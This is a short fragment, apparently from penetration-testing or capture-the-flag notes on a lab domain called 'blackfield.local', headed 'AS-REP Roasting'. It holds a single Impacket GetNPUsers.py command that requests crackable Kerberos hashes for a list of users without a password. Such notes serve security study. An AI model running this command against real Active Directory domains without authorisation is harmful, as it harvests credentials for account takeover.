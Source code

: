 
[[AS-REP Roasting]]
```bash
GetNPUsers.py blackfield.local/ -no-pass -usersfile ./data/users:valid
```
